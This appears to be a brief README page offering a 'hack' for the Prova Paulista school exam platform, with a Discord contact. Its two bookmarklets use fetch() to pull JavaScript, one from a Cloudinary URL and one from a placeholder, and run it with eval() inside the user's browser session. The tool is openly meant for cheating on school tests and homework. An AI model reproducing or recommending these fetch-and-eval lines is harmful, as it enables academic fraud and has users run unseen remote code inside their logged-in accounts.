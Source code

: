 # 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### FANDANGOS - TAREFAS:
```js
javascript:fetch("TESTES").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
